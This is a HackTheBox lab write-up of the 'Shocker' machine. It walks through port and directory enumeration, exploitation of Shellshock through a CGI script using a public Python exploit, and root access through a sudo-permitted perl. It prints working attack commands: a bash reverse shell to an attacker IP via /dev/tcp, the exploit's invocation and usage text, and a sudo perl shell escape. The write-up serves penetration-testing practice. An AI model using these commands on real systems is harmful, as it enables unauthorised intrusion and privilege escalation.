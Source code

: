```yaml
---
title: "HTB: Shocker Write-up"
date: 2021-05-03 00:00:00 -0000
categories:
  - HTB
tags:
  - HTB
  - linux
  - web
---
```


As promised, here is the first of the HackTheBox write-ups that I am going to be putting out weekly. For the first write-up I picked the first Linux box from TJNull's excellent [list of OSCP-like HackTheBox machines][htb-list] (that I hadn't already pwned).

## Phase 1: Enumeration
As with any boot2root, the first step is kicking off some external port scans to see whats up and kicking. I recently discovered [AutoRecon][autorecon] by Tib3ruis, and I have since made it a staple of my boot2root arsenal. It's great at automating all the low level stuff that you would be doing by hand, and it can usually find the low-hanging fruit pretty fast.

```bash
$ autorecon -o shocker --single-target 10.10.10.56  
```

From the `nmap` output we can see that there is a web-server on port 80, and SSH on port 2222.

```
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
```

SSH on 2222 is a little odd, but I'm going to chalk this up to just avoiding top-10 port scans. The web server seems like the juicy target here, but I'm going to just do a quick check to make sure that the SSH service isn't using any [bad keys][bad-keys]. 

```bash
$ cd ~/tools/ssh-badkeys
$ grep -R "AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREG" .
```

Nadha, worth a shot. Now that I know the SSH is secure, it's time to poke at the web-server. The first step to any web-server enumeration is always to perform directory enumeration, which `autorecon` has handily done for us. Time to check the GoBuster output.

```
/.htaccess.aspx       (Status: 403) [Size: 300]
/.htpasswd.aspx       (Status: 403) [Size: 300]
/.htaccess.jsp        (Status: 403) [Size: 299]
/.htpasswd.jsp        (Status: 403) [Size: 299]
/.htaccess.txt        (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd.txt        (Status: 403) [Size: 299]
/.htaccess.html       (Status: 403) [Size: 300]
/.htpasswd.html       (Status: 403) [Size: 300]
/.htaccess.php        (Status: 403) [Size: 299]
/.htaccess.asp        (Status: 403) [Size: 299]
/.htpasswd.php        (Status: 403) [Size: 299]
/.htpasswd.asp        (Status: 403) [Size: 299]
/cgi-bin/             (Status: 403) [Size: 294]
/cgi-bin/.html        (Status: 403) [Size: 299]
/index.html           (Status: 200) [Size: 137]
/server-status        (Status: 403) [Size: 299]
```

Hmmm, not a lot there. I'm going to kick off another scan with a bigger wordlist just incase something was missed. This time I'm going to use `ffuf` because its speed is unrivaled and I am more familiar with its flags.

```bash
$ ffuf -u http://10.10.10.56/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -of csv -o ./raft-large.csv
```

While that was running, I went to check the other `autorecon` scan output. This is where I ended up getting stuck for some time because I didn't properly enumerate the "cgi-bin" directory. I went diving down other rabbit holes, and eventually had to look up a hint. I was close in my enumeration attempts, but I just used the `CGIs.txt` file as my wordlist from the web root (which didn't have the endpoint I needed).

**Wrong Command (That I Ran)**
```bash
$ ffuf -u http://10.10.10.56/FUZZ -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -of csv -o ./raft-cgis-ext.csv -e .cgi,.php,.py,.sh
```

What I should have done was to scan the "cgi-bin" directory using a wordlist like `raft-large-directories.txt` with the extensions I specified.

**Right Command (That I Should Have Run)**
```bash
$ ffuf -u http://10.10.10.56/cgi-bin/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -of csv -o ./raft-cgi-bin-ext.csv -e .cgi,.php,.py,.sh
```

Nearly immediately we can see the new endpoint.

```
user.sh                 [Status: 200, Size: 118, Words: 19, Lines: 8]
```

This can stand as a valuable learning lesson for the future. Always, always, always properly enumerate directories - even if the root gives you a 403. Each directory should always be put through some directory enumeration tool, such as `ffuf`, so that better coverage can be achieved.

## Phase 2: Exploitation
From here, I kind of cheated a little. I used some intuition by looking at the name of the Box and the location of *the only endpoint we found* and assumed that the box was vulnerable to ShellShock. So, I looked up some shellshock exploits using `searchsploit` and found a few candidates. There were `metasploit` modules for this exploit, but I didn't want to use `metasploit` so I looked for stand alone exploits.

```bash
$ searchsploit shellshock
...
Apache mod_cgi - 'Shellshock' Remote Command Injection | linux/remote/34900.py
```

Lets go ahead and pull that one down and inspect it.

```bash
$ ssp -m linux/remote/34900.py
$ mv 34900.py shellshock.py
$ less shellshock.py
```

```python
#! /usr/bin/env python
from socket import *
from threading import Thread
import thread, time, httplib, urllib, sys 

stop = False
proxyhost = ""
proxyport = 0

def usage():
	print """

		Shellshock apache mod_cgi remote exploit

Usage:
./exploit.py var=<value>

Vars:
rhost: victim host
rport: victim port for TCP shell binding
lhost: attacker host for TCP shell reversing
lport: attacker port for TCP shell reversing
pages:  specific cgi vulnerable pages (separated by comma)
proxy: host:port proxy

Payloads:
"reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)
"bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)

Example:

./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234
./exploit.py payload=bind rhost=1.2.3.4 rport=1234

Credits:

Federico Galatolo 2014
"""
...
```

Okay, seems straightforward enough. Only one thing to do and thats give her a go.

```bash
$ ./shellshock.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.10 lport=8000 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> whoami
shelly
```

Rock on! We have a shell on the target. Next up is to make this shell into something a little more serviceable. I didn't like the way I was encapsulated in a python script, so I made a new reverse shell connection using `bash` and `nc`.

**Victim**
```bash
$ bash -i >& /dev/tcp/10.10.14.10/1234 0>&1
```

**Kali**
```bash
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.56] 58284
bash: no job control in this shell
shelly@Shocker:/tmp$ 
```

Next step was to upgrade the shell.

```bash
shelly@Shocker:/tmp$ python3 -c "__import__('pty').spawn('/bin/bash')"
```

Once I have a TTY, I followed [this guide][tty-shell] for getting a proper TTY shell over `nc`.

## Phase 3: Privilege Escalation

My go-to linux privilege escalation script is the fantastic [linpeas.sh][linpeas] by carlospolop. I used `wget` to get it onto our victim machine, then let it rip. Something immediately caught my eye while the output was scrolling past.

```
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Our user can run `perl` with `sudo`! I know that `perl` can be used to escalate privileges to root, so I went to check [GTFObins][gtfobins] to see how I could do that. Sure enough, [GTFObins] provided me with the following command.

```bash
shelly@Shocker:/tmp$ sudo perl -e 'exec "/bin/bash"'
root@Shocker:/tmp# whoami
root
```

Thanks for reading my write-up of Shocker. I plan on doing plenty more of these as I inch closer to my OSCP exam attempt, so if you liked it there will be more soon.

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[gtfobins]: https://gtfobins.github.io/